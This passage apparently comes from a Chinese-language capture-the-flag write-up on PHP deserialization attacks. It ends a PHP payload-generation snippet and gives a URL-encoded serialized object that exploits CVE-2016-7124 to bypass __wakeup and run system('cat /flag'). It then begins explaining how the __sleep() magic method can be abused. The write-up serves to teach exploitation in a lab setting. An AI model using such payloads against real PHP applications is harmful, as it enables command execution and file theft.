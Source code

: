         echo urlencode($payload);
        ?>
        ```
        Payload: `O%3A4%3A%22FLAG%22%3A2%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A22%3A%22system%28%5C%22cat+%2Fflag%5C%22%29%3B%22%3B%7D`
    ![CVE-2016-7124 2](/hello_ctf/images/Serialize21.png) (发送修改后的 Payload，成功绕过 `__wakeup` 并执行命令)

### 5. 其他魔术方法利用 (`__sleep()`, `__toString()`, `__invoke()`)

*   **`__sleep()` (Level 12):**
    *   **原理:** `__sleep()` 在 `serialize()` 时调用，控制哪些属性被序列化。`private` 属性名需要包含 `\0ClassName\0` 前缀，`static` 属性无法被序列化。